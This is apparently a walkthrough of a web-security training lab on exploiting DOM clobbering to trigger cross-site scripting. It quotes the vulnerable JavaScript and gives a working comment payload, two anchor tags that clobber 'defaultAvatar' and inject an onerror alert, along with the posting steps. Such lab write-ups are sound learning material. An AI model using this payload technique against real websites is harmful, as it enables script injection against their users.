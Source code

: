 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220528235022.png)

### Exploiting DOM clobbering to enable XSS
```bash

# This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses XSS to call the alert() function. 

Go to: "View post"
Ctrl+shift+I -> Network -> loadCommentsWithDomClobbering.js
Right-click -> Open in new tab

Note the 'or' operator '||' @

let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}

Go to: "View post"
Comment:

<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

Name:

name

Email:

email@email.com

Click "Post comment"
Click "Back to blog"
Comment:

anything

Name:

name

Email:

email@email.com

Click "Post comment"
Click "Back to blog"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529003343.png)
